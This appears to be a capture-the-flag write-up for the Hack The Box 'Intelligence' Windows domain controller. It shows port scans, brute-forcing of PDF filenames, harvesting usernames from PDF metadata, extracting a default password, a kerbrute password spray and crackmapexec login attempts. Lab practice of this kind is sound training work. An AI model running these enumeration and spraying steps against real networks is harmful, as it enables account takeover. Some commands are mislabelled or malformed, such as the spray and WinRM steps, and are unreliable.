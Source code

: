 # Hack the Box - Intelligence

```CSS
Nachine IP: 10.10.10.248
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.248 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.248
Host is up (0.18s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49691/tcp open  unknown
49692/tcp open  unknown
49707/tcp open  unknown
49714/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 304.78 seconds
```

```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49691,49692,49707,49714 10.10.10.248 -oN nmap.deep

Nmap scan report for 10.10.10.248                                                                                                                                           
Host is up (0.18s latency).                                                                                                                                                 
                                                                                                                                                                            
PORT      STATE SERVICE       VERSION                                                                                                                                       
53/tcp    open  domain        Simple DNS Plus                                                                                                                               
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                                      
| http-methods:                                                                                                                                                             
|_  Potentially risky methods: TRACE                                                                                                                                        
|_http-server-header: Microsoft-IIS/10.0                                                                                                                                    
|_http-title: Intelligence                                                                                                                                                  
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-10 09:15:40Z)                                                                                
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                                         
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                 
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.                                                                                                         
| ssl-cert: Subject: commonName=dc.intelligence.htb                                                                                                                         
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb                                                                         
| Not valid before: 2021-04-19T00:43:16                                                                                                                                     
|_Not valid after:  2022-04-19T00:43:16                                                                                                                                     
445/tcp   open  microsoft-ds?                                                                                                                                               
464/tcp   open  kpasswd5?                                                                                                                                                   
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                                                                           
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-10T09:16:35
|_  start_date: N/A
|_clock-skew: mean: 6h59m57s, deviation: 0s, median: 6h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.93 seconds
```

---

## HTTP Port #80
  - Homepage
![image](https://user-images.githubusercontent.com/83878909/230812679-60dfc045-321b-4e62-b577-3006e048ab79.png)

  - Announcement Document
![image](https://user-images.githubusercontent.com/83878909/230812932-cad5e527-0fd3-40b5-a09e-62a087f9aebd.png)

  - Other Document
![image](https://user-images.githubusercontent.com/83878909/230813172-f7359efc-a356-4629-9a8a-64564ee6cb07.png)

---

## Brute-Force PDF Filenames
  - Create a wordlist to brute-force the `date`, maybe some other documents exist.
```CSS
▶ for i in $(seq $(date -d "2020-01-01" +%s) 86400 $(date -d "2021-05-15" +%s)); do date -d @$i "+%Y-%m-%d-upload.pdf"; done > files.txt
```
- Brute-Force the filename.
```CSS
▶ for i in $(cat files.txt); do wget http://10.10.10.248/documents/$i; done
```
  - Files found.
![image](https://user-images.githubusercontent.com/83878909/230816862-cc30d963-0b39-4c13-b2cc-7e89e51206b3.png)

---

## Exiftool PDF Meta-data
  - PDF files meta-data.
![image](https://user-images.githubusercontent.com/83878909/230817269-96fbdaa8-e0a4-48e0-b13e-b00ef8405861.png)
  - Extract creator names from meta-dta of all the PDF files.
```CSS
▶ pdf exiftool *pdf | grep Creator | awk '{print $3}' | sort -u > creators.txt
```
```CSS
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```

---

## Kerbrute Validate Usernames
```CSS
▶ kerbrute userenum creators.txt --dc 10.10.10.248 -d intelligence.htb
```
![image](https://user-images.githubusercontent.com/83878909/230821076-266f1262-a0a6-4d35-bd21-025be8a3c845.png)

---

## Sensitive Information (Passwords)
  -  Convert all `pdf` files to `text`.
```CSS
▶ for i in $(ls); do pdftotext $i; done
```

  - Passwords
```CSS
▶ cat *.txt | grep -i password -B5 -A5
```
![image](https://user-images.githubusercontent.com/83878909/230822841-3abc40df-e706-4d56-8fbe-1c1b6a0fcab9.png)
  - Password: `NewIntelligenceCorpUser9876`

---

## Kerbrute Password Spray
```
▶ kerbrute userenum creators.txt NewIntelligenceCorpUser9876 --dc 10.10.10.248 -d intelligence.htb -v
```
![image](https://user-images.githubusercontent.com/83878909/230831769-4dfc3fc7-a2ab-4be5-a034-bbb67725fe2b.png)

---

## Attempt Logins
  - SMB Login: Failed
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876
```
![image](https://user-images.githubusercontent.com/83878909/230832417-7e22c44a-e4b7-4c57-8074-1f134362893b.png)

  - Winrm Login: Failed
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```
![image](https://user-images.githubusercontent.com/83878909/230832825-500c2c4c-c5bc-408f-9054-ff525fc9189e.png)

---

## SMB Shares
  - List SMB Shares
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```
![image](https://user-images.githubusercontent.com/83878909/230832582-d9290c11-90a7-4a0d-bd7a-fafde4a67b18.png)

